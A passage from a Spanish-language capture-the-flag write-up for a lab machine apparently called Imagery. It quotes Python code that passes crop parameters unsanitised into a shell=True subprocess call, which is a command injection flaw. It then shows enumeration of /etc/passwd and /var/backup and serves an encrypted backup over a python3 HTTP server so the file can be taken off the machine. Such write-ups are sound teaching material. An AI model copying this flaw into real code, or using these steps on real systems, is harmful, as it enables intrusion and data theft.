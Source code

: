 El script vulnerable a inyección de comandos es el **api_edit.py**, siendo la parte donde maneja los parámetros la que no sanitiza la entrada de estos, lo que permitió la inyección:
```bash
if transform_type == 'crop':
            x = str(params.get('x'))
            y = str(params.get('y'))
            width = str(params.get('width'))
            height = str(params.get('height'))
            command = f"{IMAGEMAGICK_CONVERT_PATH} {original_filepath} -crop {width}x{height}+{x}+{y} {output_filepath}"
            subprocess.run(command, capture_output=True, text=True, shell=True, check=True)
```
Solo la operación **Crop** es la que parece ser vulnerable.

Veamos qué usuarios existen en la máquina:
```bash
web@Imagery:~$ cat /etc/passwd | grep 'bash'
root:x:0:0:root:/root:/bin/bash
web:x:1001:1001::/home/web:/bin/bash
mark:x:1002:1002::/home/mark:/bin/bash
```
Hay 2 usuarios aparte del **Root** y ahora somos el **usuario web**.

Buscando un poco más, encontramos un directorio de **Google Chrome** en el directorio `/opt`:
```bash
web@Imagery:~$ ls /opt/google/chrome/
chrome                     CHROME_VERSION_EXTRA  icudtl.dat                         libvk_swiftshader.so                 product_logo_16.png   product_logo_64.png      xdg-settings
chrome_100_percent.pak     cron                  libEGL.so                          libvulkan.so.1                       product_logo_24.png   resources.pak
chrome_200_percent.pak     default-app-block     libGLESv2.so                       locales                              product_logo_256.png  v8_context_snapshot.bin
chrome_crashpad_handler    default_apps          liboptimization_guide_internal.so  MEIPreload                           product_logo_32.png   vk_swiftshader_icd.json
chrome-management-service  extensions            libqt5_shim.so                     PrivacySandboxAttestationsPreloaded  product_logo_32.xpm   WidevineCdm
chrome-sandbox             google-chrome         libqt6_shim.so                     product_logo_128.png                 product_logo_48.png   xdg-mime
```
Pero de momento no encuentro algo útil por aquí.

Un directorio que siempre hay que revisar, es el `/var/backup`, pues puede contener algún backup hecho por un usuario, siendo este el caso:
```bash
web@Imagery:~$ ls -la /var/backup
total 22524
drwxr-xr-x  2 root root     4096 Sep 22 18:56 .
drwxr-xr-x 14 root root     4096 Sep 22 18:56 ..
-rw-rw-r--  1 root root 23054471 Aug  6  2024 web_20250806_120723.zip.aes
```

Vamos a enviar este archivo a nuestra máquina, usando un servidor de **python3**:
```bash
web@Imagery:~$ cd /var/backup
web@Imagery:/var/backup$ python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
```
